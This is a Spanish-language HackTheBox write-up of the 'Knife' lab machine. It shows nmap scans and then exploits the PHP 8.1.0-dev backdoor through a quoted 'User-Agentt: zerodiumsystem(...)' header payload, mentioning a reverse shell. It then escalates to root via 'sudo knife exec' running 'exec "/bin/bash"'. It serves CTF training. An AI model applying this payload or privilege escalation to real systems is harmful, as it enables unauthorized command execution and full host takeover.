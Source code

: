 ```yaml
---
published: true
title: HackTheBox - Knife
date: '2021-07-08'
category: HackTheBox
description: WriteUp de la Máquina Knife de HackTheBox
---
```

![image-center](/assets/images/Knife_HTB/Knife_Infocard.png)

## Reconocimiento Inicial 
Comenzaremos realizando un escaneo con ```nmap``` mediante el siguiente comando para la enumeración de puertos de la máquina

```bash
nmap -p- -sS --min-rate 5000 --open -n -Pn -vvv 10.10.10.242 -oG allports
```
Del cual obtenemos los siguientes resultados

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 17:59 -04
Initiating SYN Stealth Scan at 17:59
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 18:00, 34.31s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (4.4s latency).
Scanned at 2021-07-07 17:59:47 -04 for 34s
Not shown: 65249 filtered ports, 284 closed ports
Reason: 65249 no-responses and 284 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 34.46 seconds
           Raw packets sent: 131046 (5.766MB) | Rcvd: 296 (11.888KB)
```
Ya sabemos que nuestra máquina posee dos puertos abiertos, el 22 y el 80, por lo que ahora toca realizar un escaneo de las versiones de estos puertos para ver que información nos entrega

```bash
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
```
Obteniendo lo siguiente
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 18:20 -04
Nmap scan report for 10.10.10.242
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.91 seconds
```

Si accedemos a la página que nos indica el puerto 80, nos encontramos con lo siguiente
![image](/assets/images/Knife_HTB/Knife-pagina.png)

Mediante el uso de ```Wappalyzer``` podemos ver que la página tiene como servidor web un Apache 2.4.41 y como lenguaje de programación un PHP 8.1-dev.
Buscando en internet por alguna vulnerabilidad posible, me encuentro que existe una vulnerabilidad que permite un Backdoor Remote Command Injection 
[https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html](https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html)

Si analizamos el código que se menciona en el artículo podemos ver que en la función ```execCmd``` la linea ```r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})``` es la que ejecuta el comando en el servidor y nos devuelve la respuesta del comando que indicamos ejecutar, un ejemplo de uso se muestra a continuación

![image](/assets/images/Knife_HTB/resutlados_script.png)

Con esto claro podemos utilizar el código tal cual está o retocarlo un poco para hacer que solamente nos realice una Reverse Shell a nuestro equipo de atacante. En mi caso lo retoque un poco tal que solamente ejecute la reverse shell para obtener acceso quedando de la siguiente forma
![image](/assets/images/Knife_HTB/script-knife.png)

De este modo ya tenemos acceso al sistema, ahora toca realizar un tratamiento de la tty.

## User Flag

Una vez realizado el tratamiento, ejecute los comandos ```whoami``` y ```id``` obteniendo lo siguiente
```bash
james@knife:~$ whoami
james
james@knife:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@knife:~$
```
con esto ya sabemos que tenemos el usuario james y podemos ir a buscar la bandera como se muestra en la imagen
![imagen](/assets/images/Knife_HTB/userflag.png)

## PrivEsc y Root Flag

Realizando una enumeración básica de privilegios ```sudo -l``` encontramos la siguiente respuesta
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 

```
[Knife](https://docs.chef.io/workstation/knife/) es una herramienta de línea de comandos que proporciona una interfaz entre un repositorio de Chef local y el Chef Infra Server la cual esta contruida en Ruby. Esta posee distintas funciones y herramientas pero nos enfocaremos en una llamada ```exec```. La cual nos permite ejecutar codigos o scripts hechos en Ruby. Indagando un poco en internet encontre esta [página](https://www.hacknos.com/perl-python-ruby-privilege-escalation-linux/) la cual indica como se puede realizar una elevación de privilegios con Ruby.

Por lo tanto y con esta información en nuestra mente ejecutamos esta linea de comandos
```bash
james@knife:~$ sudo knife exec
```
la cual nos abrira un editor donde podemos escribir el comando de ruby y ejecutarlo mediante ```ctrl+D```.
```bash
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash";
root@knife:/home/james# 
```
Y con esto ya somos root y podemos ir por la flag
```bash
root@knife:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/home/james# 
```
